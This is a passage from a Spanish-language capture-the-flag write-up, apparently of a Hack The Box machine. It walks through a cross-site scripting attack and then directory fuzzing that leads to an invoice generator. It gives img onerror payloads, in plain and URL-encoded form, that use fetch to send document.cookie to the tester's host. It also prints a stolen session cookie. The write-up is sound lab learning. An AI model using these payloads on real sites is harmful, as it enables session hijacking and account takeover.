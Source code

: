 Es importante ponerlo con URL Encode ya que si no falla. Si ahora enviamos esta solicitud y nos vamos a la consola donde montamos el servidor, vemos que hay una solicitud por GET:

![image](../zimages/Pasted%20image%2020241103183949.png)

Vamos a probar con algo más agresivo para intentar ver si podemos secuestrar una cookie de sesión. Con las etiquetas "<img/>", existe un parámetro llamado "onerror=", que sirve para hacer algo alternativo si la url que ponemos en src no es accesible, vamos a hacer el siguiente comando a ver si se realiza correctamente:

```html
<img src="http://10.10.14.13/prueba" onerror=fetch("http://10.10.14.13/prueba12345") />

# Que URL encodeado para ponerlo en Burpsuite se vería así: 

<!--
<img+src%3d"http%3a//10.10.14.13/prueba"+onerror%3dfetch("http%3a//10.10.14.13/prueba12345")+/>
-->
```

Y vemos que nos envía las 2 solicitudes a nuestro server de python:

![image](../zimages/Pasted%20image%2020241103185122.png)

Así que ahora vamos a probar a añadir en la solicitud que se nos envíe la cookie de sesión, de la siguiente manera:

```html
<!-- URL ENCODED para Burpsuite:
<img+src%3d"http%3a//10.10.14.13/prueba"+onerror%3dfetch("http%3a//10.10.14.13"%2bdocument.cookie)+/> -->

# Etiqueta normal:

<img src="http://10.10.14.13/prueba" onerror=fetch("http://10.10.14.13"+document.cookie) />
```

Y esto nos envía al server de python:

![image](../zimages/Pasted%20image%2020241103185817.png)

Ahora que ya tenemos la cookie de sesión (`eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.Zyes7w.tC2Zo-QsV-kt3NW-50WOu4KRAC0`), vamos introducirla en la web:

Ahora vamos a hacer un fuzzing de directorios para ver si hay alguno más que no hayamos visto y vemos que nos descubre el directorio "/dashboard":

![image](../zimages/Pasted%20image%2020241103190318.png)

Si nos metemos vemos las siguientes opciones:

![image](../zimages/Pasted%20image%2020241103190512.png)

Vamos a ver cada una de ellas, empezamos por la de "Generate Invoice", que nos lleva al directorio '/InvoiceGenerator', si ponemos palabras como "test" en todos los apartados, nos da un "Invoice id":

![image](../zimages/Pasted%20image%2020241103190647.png)
